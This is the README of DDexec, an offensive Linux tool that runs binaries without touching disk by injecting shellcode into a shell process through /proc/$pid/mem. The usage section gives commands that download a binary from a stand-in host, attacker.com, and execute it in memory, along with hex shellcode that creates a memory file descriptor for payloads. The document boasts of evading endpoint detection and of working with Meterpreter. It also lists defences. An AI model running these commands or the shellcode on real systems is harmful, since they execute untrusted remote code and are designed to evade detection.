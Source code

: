 # DDexec

[![CI: X64](https://github.com/arget13/DDexec/workflows/CI%20X64/badge.svg)](https://github.com/arget13/DDexec/actions/workflows/main.yml)
[![CI: ARM](https://github.com/arget13/DDexec/workflows/CI%20ARM/badge.svg)](https://github.com/arget13/DDexec/actions/workflows/arm.yml)

## Context
In Linux in order to run a program it must exist as a file, it must be accessible in some way through the file system hierarchy (this is just how `execve()` works). This file may reside on disk or in ram (tmpfs, memfd) but you need a filepath. This has made very easy to control what is run on a Linux system, it makes easy to detect threats and attacker's tools or to prevent them from trying to execute anything of theirs at all (_e. g._ not allowing unprivileged users to place executable files anywhere).

But this technique is here to change all of this. If you can not start the process you want... then you hijack one already existing.

## Usage
Pipe into the `ddexec.sh` script the base64 of the binary you want to run (**without** newlines). The arguments for the script are the arguments for the program (starting with `argv[0]`).

Here, try this:
```
base64 -w0 /bin/ls | bash ddexec.sh ls -lA
```
which is easily weaponizable with something like
```
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```

There is also the `ddsc.sh` script that allows you to run binary code directly.
The following is an example of the use of a shellcode that will create a memfd (a file descriptor pointing to a file in memory) to which we can later write binaries and run them, from memory obviously.
```
bash ddsc.sh -x <<< "68444541444889e74831f64889f0b401b03f0f054889c7b04d0f05b0220f05" &
cd /proc/$!/fd
wget -O 4 https://attacker.com/binary.elf
./4
```
In ARM64 the process is similar, only the shellcode changes
```
bash ddsc.sh -x <<< "802888d2a088a8f2e00f1ff8e0030091210001cae82280d2010000d4c80580d2010000d4881580d2010000d4610280d2281080d2010000d4"
```

And yes. It works with meterpreter.

Tested Linux distributions are Debian, Alpine and Arch. Supported shells are bash, zsh and ash (busybox); on x86_64 and aarch64 (arm64) architectures.

### EverythingExec
As of 12/12/2022 I have found a number of alternatives to `dd`, one of which, `tail`, is currently the default program used to `lseek()` through the `mem` file (which was the sole purpose for using `dd`). Said alternatives are:
```
tail
hexdump
cmp
xxd
```

Setting the variable `SEEKER` you may change the seeker used, *e. g.*:
```
SEEKER=cmp bash ddexec.sh ls -l <<< $(base64 -w0 /bin/ls)
```

If you find another valid seeker not implemented in the script you may still use it setting the `SEEKER_ARGS` variable:
```
SEEKER=xxd SEEKER_ARGS='-s $offset' zsh ddexec.sh ls -l <<< $(base64 -w0 /bin/ls)
```
Block this, EDRs.

## Dependencies
This script depends on the following tools to work.
```
tail | dd | hexdump | any other program that allows us to seek through a fd
bash | zsh | ash (busybox)
head
tail
cut
grep
od
readlink
wc
tr
basename
base64
```

## The technique
If you are able to modify arbitrarily the memory of a process then you can take over it. This can be used to hijack an already existing process and replace it with another program. We can achieve this either by using the `ptrace()` syscall (which requires you to have the ability to execute syscalls or to have gdb available on the system) or, more interestingly, writing to `/proc/$pid/mem`.

The file `/proc/$pid/mem` is a one-to-one mapping of the userland's address space of a process (_e. g._ from `0x0` to `0x7ffffffffffff000` in x86-64). This means that reading from or writing to this file at an offset `x` is the same as reading from or modifying the contents at the virtual address `x`.

Now, we have three basic problems to face:
- In general, only root and the program owner of the file may modify it.
- ASLR.
- If we try to read or write to an address not mapped in the address space of the program we will get an I/O error.

But we have clever solutions:
- Most shell interpreters allow the creation of file descriptors that will then be inherited by child processes. We can create a fd pointing to the `mem` file of the sell with write permissions... so child processes that use that fd will be able to modify the shell's memory.
- ASLR isn't even a problem, we can check the shell's `maps` file from the procfs in order to gain information about the address layout of the process.
- So we need to `lseek()` over the file. From the shell this can be done using a few common binaries, like `tail` or the infamous `dd`, see the *EverythingExec* section for more information.

### In more detail
The steps are relatively easy and do not require any kind of expertise to understand them:
* Parse the binary we want to run and the loader to find out what mappings they need. Then craft a *shell*code that will perform, broadly speaking, the same steps that the kernel does upon each call to `execve()`:
    * Create said mappings.
    * Read the binaries into them.
    * Set up permissions.
    * Finally initialize the stack with the arguments for the program and place the auxiliary vector (needed by the loader).
    * Jump into the loader and let it do the rest (load and link libraries needed by the program).
* Obtain from the `syscall` file the address to which the process will return after the syscall it is currently executing.
* Overwrite that place, which will be executable, with our shellcode (through `mem` we can modify unwritable pages).
* Pass the program we want to run to the stdin of the process (will be `read()` by said *shell*code).
* At this point it is up to the loader to load the necessary libraries for our program and jump into it.

Oh, and all of this must be done in s**hell** scripting, or what would be the point?

## Contribute
Well, there are a couple of TODOs. Besides this, you may have noticed that I do not know much about shell scripting (I am more of a C programmer myself) and I am sure I must have won a decade worth of ["useless use of a cat"](https://porkmail.org/era/unix/award.html) awards (no cats were harmed in the making of this tool) and the rest of variants just with a fraction of this project.

- Improve code style and performance.
- Port to other shells.
- Allow run the program with a non-empty environment.

Anyway, **all contribution is welcome**. Feel free to fork and PR.

## Credit
Recently I have come to know that [Sektor7](https://www.sektor7.net) had already [published](https://blog.sektor7.net/#!res/2018/pure-in-memory-linux.md) this almost-exact same technique on their blog a few years ago.

Despite this, I thought this technique independently in, now almost, its entirety. Probably the smarter piece of this technique is the use of the inherited file descriptor, idea provided by [David Buchanan](https://github.com/DavidBuchanan314) (inspired, I think, by Sektor7's blog) almost a year before I even started thinking about this topic. This alone not only makes the technique much simpler and neat, it also makes it far deadlier by eliminating the need to disable ASLR. His [tweet](https://twitter.com/David3141593/status/1386661837073174532) also made me realize how *stupid* I was for not noticing that `mem` allowed to write to non-writable pages, hence making the ROP unnecessary... This ultimately also has the desired effect of making this significantly easier to port to other ISAs.

Either way, I hope I will be able to spread this technique much further, which is what matters.

I would like to thank [Carlos Polop](https://github.com/carlospolop), a great pentester and better friend, for making me think about this subject, and for his helpful feedback and interest, oh and I also owe him the name of the project. I am sure that if you are reading this you have already used his awesome tool [PEASS](https://github.com/carlospolop/PEASS-ng) and found helpful some article in his book [HackTricks](https://book.hacktricks.xyz). I also thank him for helping me with the talk at the [RootedCon 2022](https://rootedcon.com).

## Now what?
You may:
- Go distroless.
- Use a kernel compiled without support for the `mem` file.
- Detect any program opening or writing to the `mem` file.

## Questions? Death threats?
Feel free to send me an email to [yagogl@protonmail.com](mailto:yagogl@protonmail.com) or to contact me through [Twitter](https://twitter.com/arget1313).
